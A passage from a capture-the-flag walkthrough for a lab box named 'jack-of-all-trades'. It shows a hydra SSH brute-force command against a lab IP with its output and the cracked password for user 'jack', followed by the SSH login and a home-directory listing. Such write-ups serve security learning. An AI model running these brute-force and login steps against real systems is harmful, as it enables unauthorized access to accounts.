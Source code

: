 ~~~
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
~~~

Now, let's crack the password with hydra:

~~~
$ hydra -l jack -P jacks_password_list -s 80 10.10.216.6 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-31 18:10:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.10.216.6:80/
[80][ssh] host: 10.10.216.6   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-31 18:10:09
~~~

We have found jack's password: `ITMJpGGIqg1jn?>@`; let's connect:

~~~
$ ssh jack@10.10.216.6 -p 80
jack@10.10.216.6's password: 
jack@jack-of-all-trades:~$ whoami
jack
jack@jack-of-all-trades:~$ pwd
/home/jack
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 Feb 29 20:34 .
drwxr-xr-x 3 root root   4096 Feb 29 19:45 ..
lrwxrwxrwx 1 root root      9 Feb 29 19:34 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29 19:31 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29 19:31 .bashrc
drwx------ 2 jack jack   4096 Feb 29 20:34 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29 19:31 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28 19:38 user.jpg
jack@jack-of-all-trades:~$ 
~~~

There is no flag but a picture (`user.jpg`) in which we can see the flag:
